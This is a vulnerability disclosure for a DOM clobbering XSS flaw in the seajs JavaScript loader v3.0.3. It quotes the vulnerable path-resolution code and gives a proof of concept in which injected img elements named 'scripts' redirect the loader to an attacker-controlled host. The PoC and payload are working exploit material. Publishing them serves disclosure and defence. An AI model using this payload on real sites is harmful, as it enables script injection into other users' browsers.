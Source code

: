 ## seajs

### Meta

+ Library: seajs
+ Stars: 8.3K
+ Version: v3.0.3
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx"><img name="scripts" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported(Snyk)
+ Foundby: TheHulk


### Library

https://github.com/seajs/seajs


### Vulnerable Code Snippet

```javascript
// https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247
var doc = document
var scripts = doc.scripts

// Recommend to add `seajsnode` id for the `sea.js` script element
var loaderScript = doc.getElementById("seajsnode") ||
	scripts[scripts.length - 1]

function getScriptAbsoluteSrc(node) {
	return node.hasAttribute ? // non-IE6/7
		node.src :
		// see http://msdn.microsoft.com/en-us/library/ms536429(VS.85).aspx
		node.getAttribute("src", 4)
}
loaderPath = getScriptAbsoluteSrc(loaderScript)
// When `sea.js` is inline, set loaderDir to current working directory
loaderDir = dirname(loaderPath || cwd)
```

### PoC
```html

<!--Library-->
<link rel="stylesheet" href="../static/hello/src/style.css">
<script src="../sea-modules/seajs/seajs/3.0.3/sea.js"></script>
<script>
// Set configuration
seajs.config({
  alias: {
    "jquery": "jquery/jquery/1.10.1/jquery.js"
  }
});
seajs.use("examples/hello/1.0.0/main");
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```